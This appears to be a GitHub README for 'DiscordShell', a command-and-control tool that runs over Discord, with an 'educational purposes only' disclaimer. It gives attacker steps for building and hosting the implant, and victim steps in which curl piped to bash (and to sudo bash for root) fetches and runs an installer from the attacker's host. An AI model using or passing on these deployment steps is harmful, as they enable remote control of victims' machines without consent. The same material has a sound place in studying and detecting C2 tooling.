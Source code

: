 # DiscordShell

C2 hosted on Discord via use of the Discord Python API. Created by [Sid Lacy](https://github.com/lacysw) and [Nathan Burns](https://github.com/AlbinoGazelle).

The files contained in this repository are intended for educational purposes only. Malicious use of code hosted within this repository is not permitted.

## Hosting instructions

### Attacker

1. Edit `shell.py` to contain the following valid strings: `apitoken1`, `server`, `debug`.
2. Run `build.sh` to yield an executable.
3. Host the executable (`shell`) and `installer.sh` on `$scrip:$scrport`.

### Victim

 - Execute `curl -s  http://$srcip:$srcport/installer.sh | bash` for a standard connection.
 - Execute `curl -s  http://$srcip:$srcport/installer.sh | sudo bash` for a root connection.

